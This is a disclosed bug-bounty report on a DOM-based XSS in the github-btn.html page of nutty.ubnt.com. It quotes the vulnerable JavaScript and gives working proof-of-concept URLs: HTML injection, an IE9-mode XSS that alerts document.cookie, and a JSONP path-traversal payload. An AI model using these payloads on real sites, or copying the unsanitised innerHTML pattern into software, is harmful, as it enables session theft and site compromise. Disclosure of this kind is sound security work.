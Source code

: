 # [nutty.ubnt.com] DOM Based XSS nuttyapp github-btn.html

## Report Details
- **Report ID**: 200753
- **URL**: https://hackerone.com/reports/200753
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-01-24T12:14:22.147Z
- **Disclosed**: 2017-03-30T11:18:05.422Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ui

## Vulnerability Information
Description
===

**Vulnerable parameter:** user
**Vulnerable script:** http://nutty.ubnt.com/github-btn.html
**Vulnerable code:**
```js
  var params = function () {
    var vars = [], hash;
    var hashes = window.location.href.slice(window.location.href.indexOf('?') + 1).split('&');
    for(var i = 0; i < hashes.length; i++) {
      hash = hashes[i].split('=');
      vars.push(hash[0]);
      vars[hash[0]] = hash[1];
    }
    return vars;
  }()
  var user = params.user,
      repo = params.repo,
      type = params.type,
 ...
  } else if (type == 'follow') {
    mainButton.className += ' github-me';
    text.innerHTML = 'Follow @' + user;
```

PoCs
===


**PoC #1** 
HTML Injection for Chrome, Internet Explorer
```
http://nutty.ubnt.com/github-btn.html?#&user=<h1><marquee>HTML<br>HTML<br>HTML<br>HTML<br>HTML<br>HTML<br>&type=follow
```

**PoC #2**
XSS for Internet Explorer (using X-UA-Compatible IE=9)
```
http://bb.blackfan.ru/xss?c=%3Cmeta%20http-equiv=%22X-UA-Compatible%22%20content=%22IE=9%22%3E%3Ciframe%20src=%27http://nutty.ubnt.com/github-btn.html?%23%26user=yrdy%3Cscript%3Ealert(document.domain);alert(document.cookie);//%26type=follow%27%3E%3C/iframe%3E
```

{F154666}


Another vulns
===

Also, this script has potential vulnerabilities using user controlled parameters in the path to the JS script.
But for the exploitation it requires additional vulnerability on api.github.com (for example, Open Redirect or user controlled output).

```js
  function jsonp(path) {
    var el = document.createElement('script');
    el.src = path + '?callback=callback';
    head.insertBefore(el, head.firstChild);
  }
...
  if (type == 'follow') {
    jsonp('https://api.github.com/users/' + user);
  } else {
    jsonp('https://api.github.com/repos/' + user + '/' + repo);
  }
```

**PoC**
```
http://nutty.ubnt.com/github-btn.html?#&user=../../another/endpoint&repo=../../another/endpoint&type=fork
```

**Result**
```
https://api.github.com/another/endpoint?callback=callback
```

## Attachments
- Screenshot_at_15-59-15.png
